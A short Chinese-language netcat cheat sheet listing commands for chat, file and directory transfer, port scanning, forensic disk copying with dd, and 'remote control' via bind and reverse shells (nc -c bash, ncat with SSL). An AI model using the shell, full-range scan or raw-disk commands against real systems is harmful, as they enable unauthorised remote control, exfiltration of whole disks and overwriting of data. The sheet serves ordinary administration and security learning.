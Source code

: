 ### 聊天/信息传递  
Server:   <br>
>nc -l -p 4444   <br> 
Client:    <br>
>nc -nv IP 4444   <br> 
### 电子取证
Server：    <br>
>nc-l -p 4444 > remote.txt    <br>  
Client： -q 表示完成后多少秒后退出   <br> 
>ls-l | nc -nv IP 4444 -q 1   <br>   

### 文件传输
Server: 接收文件    <br>
>nc -lp 4444 > 1.mp3   <br>
Client: 发送文件    <br>
>nc -nv IP 4444 < 1.mp3 -q 1   <br>  
### 目录传输
Server: 接收文件    <br>
>tar -cvf - music/ | nc -lp 4444 -q 1   <br>
Client: 发送文件    <br>
>nc -nv IP 4444 | tar -xvf -    <br> 

### 端口扫描（作为辅助参考，不一定准确，结合其他工具，例如nmap）
TCP 端口：  <br>
>nc -nvz IP 1-65535    <br>
UDP 端口：   <br>
>nc -nvzu IP 1-65535  <br> 

### 远程硬盘拷贝（用于电子取证，删除文件还原）
远程接收  <br>
>nc -lp 4444 | dd of=/dev/sda1   <br>
被拷贝   <br>
>dd if=/dev/sda | nc -lp 4444 -q 1    <br>

### 远程控制 
正向：    <br>
>nc -lp 4444 -c bash    <br>
>nc IP 4444   <br>
反向：    <br>
>nc -lp 4444   <br>
>nc IP 4444 -c bash  <br>  
如果是Windows，将bash换成cmd    <br>

### NC缺乏加密和身份验证功能， 用ncat 来替换 
>ncat -c bash --allow ClientIP -nvl 4444 --ssl   <br>
>ncat -nv ServerIP 4444 --ssl   <br>


